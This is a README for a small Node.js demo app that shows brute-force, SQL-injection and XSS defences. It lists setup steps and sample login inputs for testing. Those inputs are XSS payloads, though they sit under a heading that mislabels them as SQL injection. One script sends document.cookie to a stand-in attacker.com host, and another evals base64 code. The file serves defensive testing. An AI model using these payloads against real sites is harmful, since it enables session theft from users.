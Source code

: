 # Simple Web Security App

This project demonstrates a simple web application that includes features like brute force protection, SQL injection prevention, and XSS mitigation.
  
## Installation

Follow the steps below to set up the project on your local machine.

### 1. Create a New Project Directory
Open your terminal and create a new directory for your project:
```bash
mkdir my-web-security-app
cd my-web-security-app
```

### 2. Initialize a Node.js Project
Run the following command to initialize a new Node.js project and create the package.json file:
```bash
npm init -y

```

### 3. Install Required Dependencies
```bash
npm install express cors

```
### 4. Test Using Postman

- Open Postman (download it if you don't have it: [Download Postman](https://www.postman.com/downloads/)).
- Create a new POST request to `http://localhost:3000/login` with the appropriate `username` and `password` parameters.

### 5. Start the Server
```bash
node server.js

```

### Others
```bash
netstat -ano | findstr :3000
taskkill /PID ID /F
```
### Sample Inputs
```bash
USERNAME AND PASSWORD

{
  "username": "joxyle",
  "password": "jhon"
}

SQL INJECTION
{
  "username": "<script>alert('XSS')</script>",
  "password": "password123"
}
{
  "username": "<img src='x' onerror='alert(1)'>",
  "password": "password123"
}
{
  "username": "<img src='nonexistent.jpg' onload='alert(\"XSS\")'>",
  "password": "password123"
}
{
  "username": "<script>fetch('http://attacker.com?cookie=' + document.cookie)</script>",
  "password": "password123"
}
{
  "username": "<img src='x' onerror='eval(atob(\"YWxlcnQoJ1hTUycp\")' />",
  "password": "password123"
}

```
